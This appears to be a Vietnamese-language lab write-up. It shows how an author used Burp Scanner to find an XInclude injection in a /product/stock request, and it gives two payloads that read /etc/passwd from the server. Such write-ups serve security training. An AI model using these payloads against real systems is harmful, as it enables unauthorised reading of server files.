




# Lab: Discovering vulnerabilities quickly with targeted scanning

Sau khi rà soát một lượt các tính năng của website, mình thấy request `/product/stock` khả nghi.
Vì vậy, gửi request này sang Burp Scanner theo đường dẫn:

`Right click -> Do active scan`

Sau khi scan xong, xuất hiện một số lỗ hổng:



## Các bước khai thác

1. Send request trên sang Repeater để thử lại, đồng thời thay URL Burp Collaborator vào payload.



2. Sửa payload thành:

```
<fxy xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd"/>
</fxy>
```

3. Response trả về lỗi:



Lý do: parser cố parse nội dung như XML nên bị fail.

4. Sửa lại payload bằng cách thêm `parse="text"`:

```
<fxy xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</fxy>
```

5. Kết quả trả về thành công:


